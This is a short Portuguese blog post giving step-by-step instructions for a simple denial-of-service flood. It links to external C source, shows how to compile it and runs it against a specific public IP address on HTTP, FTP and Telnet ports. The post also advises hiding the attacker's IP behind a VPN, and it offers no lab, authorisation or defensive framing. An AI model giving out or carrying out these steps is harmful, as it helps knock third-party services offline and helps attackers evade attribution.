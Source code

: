 ```yaml
---
title: DoS Attack - with Clang
category: post
---
```


>link do código usado : 
https://github.com/d0x75/DoS-Clang_Linux.git

---


**Simple DoS Attack**

>DoS é um ataque de negação de serviço que é feito para prejudicar o pilar da Disponibilidade dos dados.

>Nesse caso se trata de um DoS bem simplório, que irá apenas ficar fazendo requisições repetidamente.. afim de sobrecarregar o Host e consequentemente derrubar-lo.



### Step 1

- Configurar uma VM Linux , de preferência com uma VPN para esconder o IP do atacante.

- Ter instalado ao menos o GCC na VM, para compilar o código que vai efetuar o DoS.


### Step 2


- Obter e Ler o código do link mencionado no início.

- Depois de entender e compilar o código mencionado
acima, usando o GCC de forma convencional :


```bash		
gcc DoS-linux.c -o DoS
```

### Step 3

- Se possível ligar uma VPN ou outro mecanismo que
esconda o IP do dispositivo atacante.
	
- Executar o programa compilado no Step 2, e passar
como argumento o 'host' e 'port' do alvo, que ficará
recebendo as requisições até ficar flooded e cair.

exemplos :

*Direcionando o DoS para um servidor HTTP(porta 80)* :


```bash
./DoS 65.75.137.94 80
```

*Direcionando o DoS para um servidor FTP(porta 21)* :


```bash
./DoS 65.75.137.94 21
```

*Direcionando o DoS para um servidor Telnet(porta 23)* :


```bash
./DoS 65.75.137.94 23
```